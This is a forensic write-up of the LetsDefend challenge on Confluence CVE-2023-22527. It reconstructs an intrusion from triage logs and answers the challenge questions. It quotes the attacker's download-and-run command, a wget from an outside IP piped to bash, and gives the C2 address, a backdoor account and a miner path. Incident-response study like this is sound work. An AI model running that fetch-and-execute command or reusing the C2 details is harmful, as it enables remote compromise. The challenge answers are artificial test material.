# [LetsDefend - Confluence CVE-2023-22527](https://app.letsdefend.io/challenge/confluence-cve-2023-22527)
Created: 19/06/2024 15:38
Last Updated: 19/06/2024 17:20
* * *
<div align=center>

**Confluence CVE-2023-22527**

</div>

Confluence is used by many organizations. Our organization was recently targeted and we need your expertise to help us recover from this incident. Our defense tools raised an alert about a crypto miner tool in the Confluence related directory, which led sysadmins to believe that this incident was initiated from Confluence.

You are given a triage archive image, collected via UAC(unix-like artifact collector) tool.

**File Location**: /root/Desktop/ChallengeFile/uac-ip-172-31-35-28-linux-20240125122358.zip

* * *
## Start Investigation

CVE-2023-22527 is Server Template Injection Vulnerability that resulted in Unauthenticate Remote Code Execution at `/template/xhtml/pagelist.vm` endpoint, you can read about this [vulnerability](https://www.trendmicro.com/en_th/research/24/b/unveiling-atlassian-confluence-vulnerability-cve-2023-22527--und.html) here

>What is the URI path which is vulnerable to the CVE?



UAC stores files from system within `[root]` directory



Then we can find confluence log using `find . -type f -name "*access*"` and the one we're going to investigate is `/opt/confluence/logs/conf_access_log.2024-01-25.log`



and we can see that this familiar endpoint was exploited, now we got an user-agent of an attacker and his IP address

```
/template/aui/text-inline.vm
```

>When did the attacker first exploit this vulnerability? (Answer Format: YYYY-MM-DD HH:MM:SS)



Using an attacker IP address to filter for all traffics coming from this IP address and the first record is the one we're looking for 

```
2024-01-25 11:41:26
```

>What is the attacker's remote IP Address?
```
3.110.176.89
```

>Analyze the Sysmon for Linux logs and identify the first command executed by the attacker.



Go to  `/[root]/var/log` and use `grep "confluence" syslog > confluence.txt && head confluence.txt` to find all activities from "confluence" user that was logged in `syslog` which you can see that the first command that was executed is `id` 

```
id
```

>What time did the attacker first enumerate directories on the compromised system? (Answer Format: YYYY-MM-DD HH:MM:SS)



Investigate text file that was created from previous question and you can see that `ls -la` (listing directory) was executed after the first command by 2 minutes

```
2024-01-25 11:43:33
```

>The attacker tried to execute remote commands to get a more stable shell, but apparently failed many times. Analyzing the Confluence log sources, can you find the command he/she executed around 2024-01-25 11:50:50 that errored out?



Go to `/[root]/var/confluence-home/logs` and you can see that there are several log files here but the one that we're going to use is `atlassian-confluence.log`



Then we can use `grep "11:50:50" atlassian-confluence.log` to find which command was sent to be executed at the time.

```
wget http://3.110.176.89/lin/6730789213.sh;chmod  x 6730789213.sh; bash 6730789213.sh
```

>User agents are a useful source of information and can be used for analysis. What user agent was the attacker using?


```
python-requests/2.28.2
```

>It appears that the attacker was able to download a bash script and then execute it to get a stable shell. What is the full path of this file? (Answer Format: /path/file.extension)



I searched shell script extension on `syslog` and found that it was downloaded using curl and saved to `tmp` directory



Other way to find this is to read content of `/live_response/process/pstree_-a.txt` 

```
/tmp/xxx.sh
```

>What is the size in bytes of the bash file detected earlier?



We couldn't get file size from a file itself



But we need to use `grep "xxx" /bodyfile/bodyfile.txt` to get file size that was logged using UAC

```
68855
```

>Analyzing the network connections from the triage output, what is the C2 IP address and port that the attacker connected to? (Answer Format: IP:PORT)



Read content of `xxx.sh` then we will see which port that was used to connect to an attacker listener port

```
3.110.176.89:1200
```

>What is the SHA1 hash of the bash script found in Question 8?



Easily obtain by using `sha1sum xxx.sh`

```
9ac4d3459093aac9ee4bb3b87fdeaaaa3c5bd551
```

>Attackers create new privileged user accounts for backdoor access. What is the username of the backdoor account created by the attacker?



Go to `[root]/var/log/` then we will use `grep "useradd" auth.log` to find all activities from `useradd` binary

```
confluence_servcie
```

>When was this backdoor account created? (Answer Format: YYYY-MM-DD HH:MM:SS)
```
2024-01-25 12:15:42
```

>The attacker downloaded a miner tool before being detected. What is the full path of this miner archive file?



We know that an attacker used either `curl` or `wget` to download file so I used `grep "root" syslog | grep "wget"` to get this answer

```
/opt/confluence/xmrig-6.16.4-linux-static-x64.tar.gz
```

* * *
## Summary

On this challenge, we investigated confluence logs and syslog to determine source of attacks and how an attackers got reverse shell connection to infected IP address 

<div align=center>


</div>

* * *
